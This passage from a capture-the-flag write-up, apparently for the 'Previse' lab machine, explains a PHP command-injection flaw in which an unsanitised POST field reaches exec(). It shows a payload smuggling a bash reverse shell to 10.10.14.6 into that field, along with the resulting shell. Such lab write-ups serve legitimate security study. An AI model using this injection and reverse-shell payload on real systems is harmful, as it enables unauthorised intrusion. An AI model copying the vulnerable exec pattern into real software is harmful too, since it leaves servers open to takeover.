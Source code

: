 ```
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
}
?> 

```

The developer even left a comment about using Python because it was easier.

The output is `echo`ed, but then later it `ob_clean()` to get rid of that so it doesn’t come back in the response.

There is no sanitization of the user input before it’s put into the call to `exec`, which means that I can add all sorts of injections to get execution, like `; [command]` and `$([command])`.

### Shell

To turn this RCE into a shell, I’ll simple add a reverse shell to the request with `nc` listening:

```

delim=comma;bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261' #

```

On sending, it just hangs, but at `nc`:

```

oxdf@parrot$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.104] 53808
bash: cannot set terminal process group (1389): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
